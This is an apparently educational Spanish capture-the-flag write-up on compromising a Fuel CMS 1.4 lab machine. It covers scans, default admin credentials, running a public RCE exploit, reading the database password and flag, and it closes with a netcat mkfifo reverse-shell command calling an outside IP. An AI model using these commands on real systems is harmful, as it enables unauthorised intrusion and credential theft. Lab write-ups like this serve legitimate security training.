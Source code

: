 
- IP victima `10.10.100.241`

## Comprobar si tengo conexión
```
ping -c 1 10.10.100.241
```
![](img/Pasted%20image%2020241030180823.png)
>ℹ
>		*Tenemos conexión con la máquina*



# Reconocimiento

## NMAP
```
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.100.241 -oN basic_scan
```
![](img/Pasted%20image%2020241030182625.png)

# ENUMERACIÓN

## NMAP
```
nmap -p80 -sVC --min-rate 5000 -n -Pn -vvv 10.10.100.241 -oN ports_scan
```
![](img/Pasted%20image%2020241030182842.png)
![](img/Pasted%20image%2020241030182825.png)



### Puerto 80
- Voy al navegador para dar un vistazo al servidor web
![](img/Pasted%20image%2020241030182959.png)
![](img/Pasted%20image%2020241030183017.png)
![](img/Pasted%20image%2020241030183031.png)
>ℹ
>		*Vemos varias cosas interesante.
>		- Primero vemos que es un CMS con al versión 1.4, y es como un tutorial como para instalar el CMS llamado FUEL.
>		- Tenemos listadas varias rutas que permiten escribir
>		- Nos muestra archivos de configuraciones
>		- Y al final una URL con usuario y contraseñas predeterminadas para entrar como administrador*




- #### Visito URL
- En la web tenemos la siguiente información
 ![](img/Pasted%20image%2020241030183431.png)
>ℹ
>	*No indica que en la ruta `http://10.10.100.241/fuel` podemos loguearnos como administradores con las credenciales `admin:admin`*	


- Visitio la URL	 
![](img/Pasted%20image%2020241030183624.png)
>ℹ
>	* Tenemos un login, el cual introduzco las credenciales que tenemos `admin:admin`*

![](img/Pasted%20image%2020241030183723.png)
>ℹ
>	*Estamos dentro del gestor CMS Fuel*



## Explotación

- Buscamos un exploit para la versión de este CMS
```
searchsploit fuel
```
![](img/Pasted%20image%2020241030184736.png)


- Usamos el primero `47138`, asi que lo descargamos
```
searchsploit -m 50477.py
```
![](img/Pasted%20image%2020241030210914.png)

- Vemos el código del exploit
```
cat 50477.py
```
![](img/Pasted%20image%2020241030211003.png)
![](img/Pasted%20image%2020241030211026.png)
>ℹ
>	*Este script es un exploit de ejecución remota de código (RCE) diseñado para aprovechar una vulnerabilidad en **Fuel CMS 1.4.1 o versiones anteriores**. Permite al atacante ejecutar comandos del sistema en el servidor en el que está alojado Fuel CMS y ver los resultados en la consola.
>
		Propósito:
		El exploit se conecta a un servidor que ejecuta Fuel CMS vulnerable y permite:
		- Verificar la conexión al servidor.
		- Enviar comandos al servidor y recibir su salida.
>	 
>	 Esto puede dar al atacante acceso no autorizado para manipular y obtener información del servidor remoto, dependiendo de los permisos del servidor y del usuario bajo el que corre Fuel CMS*



- Ejecuto el exploit
```
python3 50477.py -u http://10.10.135.11
```
![](img/Pasted%20image%2020241030211445.png)
>ℹ
>	*Vemos que obtuvimos conexión con el servidor*



- Compruebo algún comando
```
whoami
```
![](img/Pasted%20image%2020241030211540.png)
>ℹ
>	*Se ejecuta el comando propuesto*


- Como podemos ejecutar cualquier comandos, podemos ver información del sistema, por ejemplo:
```
cat fuel/application/config/database.php
```
![](img/Pasted%20image%2020241030212204.png)
>ℹ
>	*Obtenemos la contraseña del usuario `root`*



- Sabemos cómo iniciar sesión como root, pero no tenemos forma de hacerlo. Tenemos que tratar de conseguir una shell en el sistema para poder cambiar nuestro usuario a root. Antes de eso, sin embargo, vamos a ver si podemos enviar la bandera de usuario usando esta interfaz de comando.
```
ls /home/www-data
```
![](img/Pasted%20image%2020241030212408.png)

- Vemos el contenido del fichero enumerado
```
cat /home/www-data/flag.txt
```
![](img/Pasted%20image%2020241030212611.png)
>ℹ
>	*Tenemos la bandera de usuario, ahora nos movemos para entrar en el sistema.*




Necesitamos una manera de conseguir una reverse shell, "sudo -l". Pero como tenemos ejecución remota de comandos, podemos intentar lanzarnos una `reverse shell`, por me dio de netcat.


- Ponemos a la escucha netcat
```
nc -nlvp 1234
```
![](img/Pasted%20image%2020241101214532.png)


- En la ejecución remota de comandos podemos ejecutar el código:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.31 1234 >/tmp/f
```
